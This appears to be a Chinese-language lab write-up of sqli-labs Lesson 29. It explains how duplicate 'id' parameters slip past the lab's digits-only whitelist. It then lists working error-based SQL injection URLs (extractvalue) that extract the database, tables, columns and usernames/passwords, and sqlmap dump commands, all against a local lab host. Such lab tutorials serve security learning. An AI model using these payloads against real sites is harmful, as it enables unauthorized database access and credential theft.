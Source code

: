 ```yaml
---
title: sqli-labs lession-29 GET基于错误-阻抗不匹配-有WAF的web应用
date: 2018-10-14 15:10:34
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession 29 GET基于错误-阻抗不匹配-有WAF的web应用

---



## 登录界面

![001](/img/sql/Lesson-29/001.png)

## 分析

这一课真正的登录界面是在login.php里,跟index.php的区别是进行了过滤。

login.php中接受参数依次通过了自定义函数java_implimentation和whitelist过滤。

![002](/img/sql/Lesson-29/002.png)

```
function java_implimentation($query_string)
{
	$q_s = $query_string;
	$qs_array= explode("&",$q_s);


	foreach($qs_array as $key => $value)
	{
		$val=substr($value,0,2);
		if($val=="id")
		{
			$id_value=substr($value,3,30); 
			return $id_value;
			echo "<br>";
			break;
		}
	}
}

function whitelist($input)
{
	$match = preg_match("/^\d+$/", $input);
	if($match)
	{
		//echo "you are good";
		//return $match;
	}
	else
	{	
		header('Location: hacked.php');
		//echo "you are bad";
	}
}
```

java_implimentation通过explode将url中传递的参数以&分割保存在数组中，随后查找id和id的内容。whitelist检查id的值是否是纯数字。不符合规范跳转错误界面。

![003](/img/sql/Lesson-29/003.png)

但是通过这个例子发现有重复参数的时候它没有检查。&是传参中用来多个参数传递的。就有了下面的绕过方法。

![004](/img/sql/Lesson-29/004.png)

## 手注

### 获取字段数

`http://192.168.75.133/sql/Less-29/login.php?id=1&id=2' order by 4%23`

![005](/img/sql/Lesson-29/005.png)

### 获取数据库名

`http://192.168.75.133/sql/Less-29/login.php?id=1&id=2' and extractvalue(null,concat(0x7e,database(),0x7e))%23`

![006](/img/sql/Lesson-29/006.png)

### 获取表名

`http://192.168.75.133/sql/Less-29/login.php?id=1&id=2' and extractvalue(null,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e))%23`

![007](/img/sql/Lesson-29/007.png)

### 获取列名

`http://192.168.75.133/sql/Less-29/login.php?id=1&id=2' and extractvalue(null,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x7e))%23`

![008](/img/sql/Lesson-29/008.png)

### 获取字段

`http://192.168.75.133/sql/Less-29/login.php?id=1&id=2' and extractvalue(null,concat(0x7e,(select concat(username,'~',password) from security.users limit 1,1),0x7e))%23`

![009](/img/sql/Lesson-29/009.png)

## SQLMAP

```
--technique E:检查报错注入方式
--threads 10：并发线程数为10
--flush-session:刷新session
--fresh-queries:发起新查询
-v 3：显示测试过程
```

`sqlmap -u "http://192.168.75.133/sql/Less-29/login.php?id=1&id=2" --dbms mysql --technique E --threads 10 --flush-session --fresh-queries -v 3`

![010](/img/sql/Lesson-29/010.png)

`sqlmap -u "http://192.168.75.133/sql/Less-29/login.php?id=1&id=2" --dbms mysql --technique E --threads 10 --dbs`

![011](/img/sql/Lesson-29/011.png)

`sqlmap -u "http://192.168.75.133/sql/Less-29/login.php?id=1&id=2" --dbms mysql --technique E --threads 10 -D security -T users --columns --dump`

![012](/img/sql/Lesson-29/012.png)

